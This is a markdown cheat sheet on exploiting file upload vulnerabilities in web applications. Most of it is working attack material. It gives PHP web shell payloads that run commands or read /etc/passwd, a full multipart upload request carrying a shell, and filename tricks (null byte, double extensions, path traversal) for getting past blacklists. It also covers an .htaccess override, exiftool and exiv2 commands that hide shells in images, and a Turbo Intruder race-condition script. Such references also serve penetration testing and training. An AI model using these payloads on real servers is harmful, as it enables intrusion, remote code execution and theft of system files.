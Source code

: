 ```yaml
---
description: Uploading a file on a website without validation.
cover: https://www.plexal.com/wp-content/uploads/2023/05/MicrosoftTeams-image-171.png
coverY: 0
---
```


# File Upload

#### File upload occurs when a web server allows users to upload files to its filesystem without validating.

<mark style="color:purple;">**"Content-Type" header:**</mark>

- Simple text like name, address: "application/x-www-form-url-encoded"
- Large amounts of binary data, like image or a PDF: "multipart/form-data"

<mark style="color:purple;">**"Content-Disposition" header:**</mark>

- If request message body is split into separate parts, each part contains a "Content-Disposition" header, which provides some basic information about the input field. And it has a "Content-Type" header which tells the server the MIME type of the data that was submitted using this input.

## <mark style="color:red;">Exploiting</mark>

### <mark style="color:purple;">PHP web shell upload</mark>

```http
// Send in a HTTP request body
<?php echo file_get_contents('/path/to/target/file'); ?>
```

```
// Send in a HTTP request body
<?php echo system($_GET['command']); ?>
// Usage in HTTP GET request
GET /example/exploit.php?command=id HTTP/1.1
```

<mark style="color:purple;">**Example**</mark>

```http
// Edit HTTP request with "BurpSuit Proxy"
POST /my-account/avatar HTTP/1.1
Host: test.net
LOPLOP
Content-Type: multipart/form-data; boundary=---------------------------4714704787410783474211833593
Content-Length: 523
LOPLOP
-----------------------------4714704787410783474211833593
Content-Disposition: form-data; name="avatar"; filename="f.php"
Content-Type: image/png
<?php echo file_get_contents('/etc/passwd'); ?>
-----------------------------4714704787410783474211833593
Content-Disposition: form-data; name="user"
TEST
-----------------------------4714704787410783474211833593
```

### <mark style="color:yellow;">Web shell upload via path traversal</mark>

```
// Send file upload request:
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
```

### <mark style="color:yellow;">Overriding the server configuration</mark>

&#x20;Load a directory-specific configuration from a file and edit it:\
\- IIS Server: "web.config"\
\- Apache Server: ".htaccess"

### <mark style="color:yellow;">Obfuscating file extensions</mark>

Most exhaustive blacklists can potentially be bypassed using classic obfuscation techniques

<mark style="color:purple;">**Example**</mark>\
In the "Content-Disposition" header, change the value of the filename parameter to:&#x20;

```
Content-Disposition: form-data; name="avatar"; filename="exploit.php%00.jpg"
```

#### <mark style="color:purple;">or</mark>

```
- exploit.pHp
- exploit.php.jpg
- exploit.php.
- exploit.p.phphp
- using the URL encoding (or double URL encoding) for dots: exploit%2Ephp
- Add semicolons or URL-encoded null byte characters before the file extension: exploit.asp;.jpg or exploit.asp%00.jpg
- using multibyte unicode characters like xC0 x2E, xC4 xAE or xC0 xAE
```

### <mark style="color:yellow;">Web shell upload via extension blacklist bypass (upload malicious .htaccess file)</mark>

Send request which upload file to server in Burp Repeater then:

- Change the value of the "**filename**" parameter to "**.htaccess**"
- Change the value of the "**Content-Type**" header to "**text/plain**"
- Replace payload with `AddType application/x-httpd-php .l33t`
- Resend the request with your payload and its "**filename**" should be "**exploit.l33t**"
- Now web shell was successfully uploaded.

### <mark style="color:yellow;">Remote code execution via polyglot web shell upload</mark>

```
// This adds your PHP payload to the image's Comment field
$ exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/path/secret_file') . ' END'; ?>" icon.png -o polyglot.php
$ exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
```

### <mark style="color:yellow;">Exploiting file upload race conditions</mark>

Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata.

<mark style="color:purple;">**Example**</mark>

As you can see from the source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses.&#x20;

Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed.\
\
To solve this challenge, we can use **Turbo Intruder**. Turbo Intruder is a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''  # Post web shell to run your payload

    request2 = '''<YOUR-GET-REQUEST>'''    # Get web shell output

    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)

```

### <mark style="color:yellow;">Exploiting file upload vulnerabilities without RCE</mark>

#### <mark style="color:purple;">Uploading malicious client-side scripts</mark>

If you can upload HTML files or SVG images, you can potentially use tags to create stored XSS payloads.

#### <mark style="color:purple;">Exploiting vulnerabilities in the parsing of uploaded files</mark>

You know that the server parses XML-based files, such as Microsoft Office .doc or .xls files, this may be a potential vector for XXE injection attacks.

